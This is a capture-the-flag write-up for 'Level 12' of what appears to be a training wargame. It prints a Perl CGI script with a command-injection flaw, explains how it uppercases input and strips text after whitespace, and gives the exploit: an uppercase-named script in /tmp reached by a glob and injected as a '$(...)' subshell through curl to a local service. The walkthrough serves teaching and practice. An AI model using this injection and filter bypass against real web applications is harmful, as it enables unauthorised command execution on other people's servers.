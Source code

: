 # Level 12

## Initial Context

- A single file: `level12.lua`

## Solving the Challenge

### Analyzing

There is only a CGI perl script:

```perl
$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

We can see it takes two parameters to call the method `t`:
- `?y` stored in `$nn` but never used.
- `?x` stored in `$xx`:
  - using a regex, all characters are replaced as their uppercase version:
    ```
    .----------- translate (a.k.a replace)
    |   .------- all characters from 'a' to 'z'
    |   |   .--- to all characters from 'A' to 'Z'
    |   |   |
    tr/a-z/A-Z/
    ```
  - using a regex, if content start with a space, all content is replaced with nothing:
    ```
    .---------- search
    | .-------- 1 any space characters (equivalent to [\r\n\t\f\v ])
    | | .------ any any characters
    | | |.----- between zero and unlimited times
    | | || .--- replace it with nothing
    | | || |
    s/\s.*//
    ```
  - then it is used for a command:
    ```
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    ```

So using a subshell, we should be able to execute custom commands.

But since every character are in uppercase, commands will break. Executing a script can overcome this problem.

### Exploiting

The script name must be in uppercase.

```bash
$ echo 'getflag > /tmp/level12' > /tmp/LEVEL12.SH
$ chmod a+rx /tmp/LEVEL12.SH
```

But since we cannot uppercase `/tmp/` we will have to use bash's expender `*`. That means that `/*/LEVEL12.SH` will resolve to `/tmp/LEVEL12.SH` since no other directory in `/` have a file named `LEVEL12.SH`.

```bash
$ ls /*/LEVEL12.SH
/tmp/LEVEL12.SH
```

Now we can exploit the script by doing an HTTP request to `localhost:4646` (mentioned at the top of the script).

```bash
$ curl http://localhost:4646?x='$(/*/LEVEL12.SH)'
..
```

And we can see our flag with:

```bash
$ cat /tmp/level12
Check flag.Here is your token : ....
```